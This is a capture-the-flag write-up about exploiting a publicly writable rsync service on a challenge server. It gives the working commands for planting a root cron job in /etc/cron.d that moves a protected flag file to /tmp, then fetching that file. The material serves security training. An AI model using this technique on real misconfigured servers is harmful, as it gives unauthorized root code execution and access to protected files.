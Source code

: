 By crafting a cron file in `/etc/cron.d/` that runs as root and moves the flag to a world-readable directory (`/tmp`), the challenge restriction was bypassed.  
Once the cron job executed, the rsync client could download `/tmp/flag.txt` normally.

### Solution to the Vulnerability (Detailed Path)

1. **Identify Vulnerability**: Public rsync with write access to `/`
 2. **Understand Restriction**: `/root/flag.txt` blocked via `filter`. 
 3. **Find Execution Vector**: cron running, `/etc/cron.d` writable via rsync. 
 4. **Develop Payload**: cron entry that moves `/root/flag.txt` to `/tmp/flag.txt`. 
 5. **Upload Payload**: Using rsync to place file into `/etc/cron.d`. 
 6. **Wait for Execution**: Cron runs every minute. 
 7. **Download Flag**: After movement, `/tmp/flag.txt` is accessible.
---

# Solve steps

Here you will saw the steps to solve the Challenge.

### Preparation for cron job payload

Local creation of cron payload with the following command:
```bash
echo "* * * * * root mv /root/flag.txt /tmp/flag.txt" > flagcopy
```

### Upload payload file
Upload file and wait a few seconds until the cron job hits and upload the `flagcopy` script to the  target system with the following command:
```bash
rsync flagcopy rsync://dbhchallenges.de:<YOUR_GIVEN_PORT>/dir/etc/cron.d/flagcopy
```

Download  the `flag.txt` after cron job hits from the `/tmp` folder to your attacking machine with the following command:
```bash
rsync rsync://dbhchallenges.de:<YOUR_GIVEN_PORT>/dir/tmp/flag.txt .
```

- Perfect the job is done we exploited the target system <3
---
# Flag

Here we get obviously the FLAG.

### Get the Flag

Watch the wonderful `flag.txt` with the following command:
```bash
cat flag.txt 
```
